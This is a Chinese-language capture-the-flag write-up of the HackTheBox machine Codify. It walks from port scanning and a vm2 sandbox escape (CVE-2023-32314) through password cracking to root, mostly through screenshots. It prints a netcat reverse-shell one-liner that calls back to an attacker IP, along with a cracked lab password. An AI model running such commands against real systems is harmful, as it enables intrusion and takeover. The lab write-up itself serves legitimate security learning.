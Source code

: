 先把codify.htb加入/etc/hosts

![image](https://hackmd.io/_uploads/H10yHw_4a.png)

用nmap掃了後有開啟22,80跟3000 port

![image](https://hackmd.io/_uploads/rkLiBDOET.png)

透過主頁的介紹大致知道他是可以線上測試node.js的網站

![image](https://hackmd.io/_uploads/SJh1PwO46.png)

關於這邊有寫到她是用vm2的library 

![image](https://hackmd.io/_uploads/Byo--__4a.png)

點開後他是使用3.9.16版本 去找有沒有相關漏洞

![image](https://hackmd.io/_uploads/rk_HW_dNp.png)

找到一個可以ByPass sandbox的漏洞 [CVE-2023-32314](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

![image](https://hackmd.io/_uploads/ByfsOtOVT.png)

貼上她的payload後嘗試whoami 指令有成功讀取到 所以可以來嘗試看看reverse shell

![image](https://hackmd.io/_uploads/rk-qtYdV6.png)

在本地開啟一個8888 port監聽

![image](https://hackmd.io/_uploads/Hyw1sYuNp.png)

在payload裡用上`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.23 8888 >/tmp/f` 後成功get shell(不能用bin/bash 不確定是不是因為沒開/dev/tcp的關係) 

![image](https://hackmd.io/_uploads/S1ydiFuVT.png)

裏頭有一個joshua 可是沒有權限進入 所以感覺是要去找他的ssh密碼

![image](https://hackmd.io/_uploads/HkkBP5u46.png)


可是裡面資料夾有點多 翻不太到想要的東西 想說用linpeas看看

![image](https://hackmd.io/_uploads/BJLGPquE6.png)

但不知道為什麼不能解析 github .com

![image](https://hackmd.io/_uploads/HJmKvqON6.png)

最後是在var/www/contact這個路徑下找到一個tickets.db

![image](https://hackmd.io/_uploads/S1Xz9cuVp.png)

其中這段看起來就很像是joshua的ssh密碼

![image](https://hackmd.io/_uploads/ByqB9qdVp.png)

拿去用john爆破成功爆出一段密碼 spongebob1

![image](https://hackmd.io/_uploads/SJMJ65_4p.png)

成功透過ssh登入了joshua身分

![image](https://hackmd.io/_uploads/BkQIpq_VT.png)

拿到user flag

![image](https://hackmd.io/_uploads/B1T_a5OEp.png)

用sudo -l 後發現有一個root權限下也可以運作的檔案 /opt/scripts/mysql-backup.sh

![image](https://hackmd.io/_uploads/SkT8biuEa.png)

裏頭的程式碼

![image](https://hackmd.io/_uploads/ryYNj3uEa.png)

寫一個python 腳本來跑出密碼

![image](https://hackmd.io/_uploads/HkI2c3_46.png)

成功爆出密碼

![image](https://hackmd.io/_uploads/ryfqns_4a.png)

拿來登入root 並成功得到flag

![image](https://hackmd.io/_uploads/HJJUhhONa.png)
